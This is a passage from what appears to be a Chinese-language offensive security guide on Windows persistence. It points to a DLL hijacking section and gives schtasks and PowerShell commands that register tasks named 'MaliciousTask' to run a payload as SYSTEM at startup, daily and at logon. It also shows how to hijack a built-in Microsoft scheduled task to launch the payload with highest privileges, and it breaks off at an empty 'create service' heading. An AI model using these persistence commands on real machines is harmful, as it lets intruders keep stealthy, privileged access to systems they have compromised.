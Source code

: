 ### Windows持久化

#### DLL劫持

参考[DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

#### 计划任务

```bash
schtasks /create /tn "MaliciousTask" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc ONSTART /ru SYSTEM
schtasks /query /TN MaliciousTask /XML
schtasks /create /tn "MaliciousTaskDaily" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc DAILY /st 09:00 /ru SYSTEM
```

PowerShell:

```bash
$Action = New-ScheduledTaskAction -Execute "C:\malicious.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$Settings = New-ScheduledTaskSettingsSet
$Settings.ExecutionTimeLimit = "PT0S"
Register-ScheduledTask -TaskName "MaliciousTaskLogon" -Action $Action -Trigger $Trigger -User "SYSTEM" -Settings $Settings
```

```bash
schtasks /delete /TN "MaliciousTask" /F
Unregister-ScheduledTask -TaskName "MaliciousTask" -Confirm:$false
```

```bash
SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /RL HIGHEST /RU SYSTEM /ENABLE
```

#### 创建服务

